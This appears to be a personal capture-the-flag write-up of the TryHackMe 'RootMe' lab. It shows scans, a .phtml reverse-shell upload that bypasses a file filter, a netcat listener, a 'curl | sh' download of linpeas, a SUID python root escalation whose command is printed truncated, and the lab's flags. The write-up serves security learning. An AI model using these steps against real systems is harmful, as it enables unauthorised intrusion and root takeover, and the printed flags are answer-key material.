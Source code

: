 # RootMe

```bash
export IP=10.10.33.62
```


## Scans

### Nmap

Open Ports:
```
22 -- ssh
80 -- webserver Apache 2.4.29
```

### Gobuster

Directories Found:
```
/uploads -- shows uploaded files
/css
/js
/panel -- upload file form here
```


## Exploit

`.php` files not accepted, `.phtml` is fine

`revshell.phtml` uploaded to `/panel`

Netcat Listening port:
```bash
nc -lnvp 9001
```

going to `/uploads` and opening `revshell.phtml`, spawns a shell

Reverse Shell Achieved.

### Stabilizing Shell

Command: (type carefully, beware of typos in this whole section)
```bash
/usr/bin/script -qc /bin/bash /dev/null
```

To 'background' process:
```bash
<Ctrl> <z>
```

No input return after this command:
```bash
stty raw -echo
```

Typing in the dark:
```bash
<f> <g>
<Return>
<Return>
export TERM=xterm
<Return>
<Return>
```

Shell stabilized. -- tab completion, backspace, CTRL+C, arrow key history functional

User Found: `rootme`


## Linpeas

`linpeas.sh` -- Linux auto enumeration script -- shows vulnerabilities and possible privesc vectors

Uploading linpeas.sh to target: (from host machine)
```bash
sudo python -m SimpleHTTPServer 80
```

Uploading linpeas.sh to target: (from target machine) -- don't forget to change to host tun0 $IP
```bash
curl 10.10.10.10/linpeas.sh | sh 
```

Interesting Info Found:

```
/etc/ssh/ssh_config
/usr/share/keyrings
/var/www/user.txt
```

`/usr/bin/python` has SUID permission!!


**User Flag Found**: `THM{y0u_g0t_a_sh3ll}`


## PrivEsc

searching for Python on [gtfoBins](https://gtfobins.github.io/gtfobins/python/)

Command: (on target machine)
```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p"
```

Root Shell Achieved.

```bash
ls
cat root.txt
```

**Root Flag Found**: `THM{pr1v1l3g3_3sc4l4t10n}`


---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
